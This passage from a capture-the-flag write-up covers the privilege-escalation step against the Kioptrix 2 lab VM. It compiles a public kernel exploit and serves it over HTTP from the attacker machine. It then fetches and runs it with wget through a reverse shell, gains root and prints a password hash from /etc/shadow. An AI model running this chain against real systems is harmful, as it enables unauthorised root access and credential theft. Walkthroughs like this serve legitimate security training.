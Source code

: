 Viewing the output of `cat /etc/*elease` also reveals that this machine is running `CentOS release 4.5 (Final)`.

# [](#header-1)Privilege Escalation

There are an awful lot of local privilege escalation exploits on Exploit-DB for this kernel version but the one that looks the most promising is the [Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)](https://www.exploit-db.com/exploits/9542) exploit as it matches both our Linux kernel version and the distribution version.

We'll copy it to a local directory using `searchsploit`.

`$ searchsploit -m 9542`

```
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/9542
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/ben/CTFs/vulnhub/kioptrix2_192.168.1.32/3-post-exploitation/9542.c
```

Although Kioptrix 2 has `gcc` installed it's good practice to assume it's not so we'll compile the exploit locally and then download it fom the target system in to `/dev/shm` using `wget`.

`$ gcc -m32 -Wl,--hash-style=both 9542.c -o 9542`

`$ python -m SimpleHTTPServer`

```
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.1.32 - - [26/Nov/2019 20:19:45] "GET /9542 HTTP/1.0" 200 -
```

And back in our reverse shell,

```
bash-3.00$ wget 192.168.1.30:8000/9542
--20:19:59--  http://192.168.1.30:8000/9542
           => `9542'
Connecting to 192.168.1.30:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16,220 (16K) [application/octet-stream]

    0K .......... .....                                      100%    2.16 GB/s

20:19:59 (2.16 GB/s) - `9542' saved [16220/16220]
bash-3.00$ ls
9542
bash-3.00$ chmod +x 9542
bash-3.00$ ./9542
sh: no job control in this shell
sh-3.00# whoami
root
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# head -n 1 /etc/shadow
root:$1$FTpMLT88$VdzDQTTcksukSKMLRSVlc.:14529:0:99999:7:::
```
